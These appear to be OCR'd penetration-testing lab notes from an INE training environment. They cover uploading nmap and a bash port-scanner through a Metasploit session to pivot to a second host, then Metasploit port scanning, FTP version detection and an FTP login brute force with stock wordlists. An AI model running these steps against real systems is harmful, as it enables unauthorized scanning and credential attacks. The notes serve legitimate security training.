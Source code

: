 ```shell
ls -al /usr/bin/nmap
file /usr/bin/nmap
```

> Check the static binaries available in the `/usr/bin/` directory.

```bash
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

> Using the script provided at https://catonmat.net/tcp-port-scanner-in-bash as a reference, create a bash script to scan the first 1000 ports

```msfconsole
sessions -i 1
upload /usr/bin/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

> Background the session and then upload the created shell script.

```shell
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh demo2.ine.local
```

> Make the binary and script executable and use the bash script to scan the second target machine.

#### FTP Enumeration:

```msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip-address>
set verbose false
set ports 1-1000
exploit
```

> This module can be used to perform a simple port scan on the target machine.

```msfconsole
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/ftp_version
set RHOST <ip-address>
run
```

> This can be used to scan the FTP version running on the target.

```msfconsole
search type:auxiliary name:ftp
use auxiliary/scanner/ftp/ftp_login
set RHOST <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```
